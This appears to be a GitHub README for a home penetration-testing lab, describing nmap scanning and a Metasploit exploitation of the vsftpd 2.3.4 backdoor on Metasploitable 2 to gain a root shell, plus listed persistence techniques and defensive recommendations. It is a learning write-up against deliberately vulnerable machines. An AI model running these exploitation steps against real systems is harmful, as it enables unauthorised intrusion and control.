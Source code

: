 # Penetration Test Lab: Kali Linux, Metasploitable 2, and Windows VM

This project documents a penetration testing lab I set up using:
- 🐱 Kali Linux (Attacker)
- 💣 Metasploitable 2 (Target)
- 🪟 Windows 10 VM (Target)

## 🛠️ Lab Setup

- **Kali Linux** as the attacking machine
- **Metasploitable 2** running vulnerable services
- **Windows 10** for testing client-side attacks and vulnerabilities
- **Virtualization:** VirtualBox 
- **Network Setup**: Host-only adapter (isolated lab environment)
  
![Screenshot (282)](https://github.com/user-attachments/assets/d3da1f22-0793-4cfb-9feb-ab1f03acbd5c)

## 🧰 Tools Used

- `Nmap` – Port scanning and OS detection
- `Metasploit Framework` – Exploitation and enumeration
- `Enum4linux` – SMB enumeration
- `Netcat` – Shell access
- `msfvenom` – Payload generation
- `FTP` / `Telnet` – Protocol testing

## 📋 Test Phases

### 1. Executive Summary
A penetration test was conducted against a Metasploitable 2 and Windows 10 VM. Using tools like Nmap and Metasploit, several vulnerabilities were identified, with successful root-level exploitation of the Linux system via vsftpd 2.3.4. Recommendations include port hardening, access control, and regular vulnerability scanning.

---

### 2. 🗺️ Plan and Scope

| Machine | Role      | OS             |
|---------|-----------|----------------|
| Kali    | Attacker  | Kali Rolling   |
| Meta    | Target    | Metasploitable 2 |
| Win10   | Target    | Windows 10     |

- **Scope**: Limit testing to Metasploitable and Windows 10 within host-only network.
- **Tools**: Nmap, Metasploit, FTP brute force, vulnerability scanners.

---

### 3. 🔎 Scanning and Enumeration

```bash
nmap -sS -sV -O 192.168.56.101
```

- Identified open ports on Metasploitable: 21 (FTP), 22 (SSH), 80 (HTTP), etc.

- Windows VM appeared with all ports filtered.

- Used Metasploit to probe HTTP services and identify FTP vulnerabilities

- Discovered vulnerable FTP service: vsftpd 2.3.4
  
![Screenshot (283)](https://github.com/user-attachments/assets/416a3747-d362-4074-a81f-d2b43a20d19c)

### 4. 🛠️ Vulnerability Assessment

 -Identified multiple services on Metasploitable with known exploits.

- Selected FTP service `(vsftpd 2.3.4)` for exploitation due to publicly available and reliable Metasploit module.

![Screenshot (285)](https://github.com/user-attachments/assets/8370f191-0df4-4789-9ea9-870cf374fb24)
![Screenshot (286)](https://github.com/user-attachments/assets/5f2590d1-de8d-4abc-ab36-b957dbc64030)

### 5. 🎯 Exploitation (Establishing Access)

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```
- Successfully gained root shell access to the Linux target via vsftpd backdoor.

- Verified full system control from the attacking Kali machine.

![Screenshot (287)](https://github.com/user-attachments/assets/efc44a1e-9645-405c-8849-425d8e726f8f)

### 6. 🔒 Maintaining Access
- Maintained root access using reverse shells.

- Simulated persistence techniques:

- Install rootkits

- Schedule cron jobs

- Add malicious SSH keys

### 7. 🛡️ Recommendations
### Linux (Metasploitable):

- Disable unused services (e.g., FTP)

- Apply latest security patches

- Enable firewall rules to limit access

### Windows 10:

- Enable all OS updates

- Configure Windows Defender properly

- Monitor logs and access attempts

### 8. 🧠 Final Reflection
This penetration test lab helped reinforce:

- Real-world enumeration and exploitation workflows
  
- Metasploit use in practical engagements
  
- Defensive security understanding through post-exploit reflection
  
# Next Steps:

- Learn client-side attacks
  
- Perform privilege escalation on Windows targets
  
- Explore web application vulnerabilities

### 🧾 References

- Mastering Metasploit - Packtpub

- SI110 Cyber-Attack Phases – USNA

- Information Security Stack Exchange
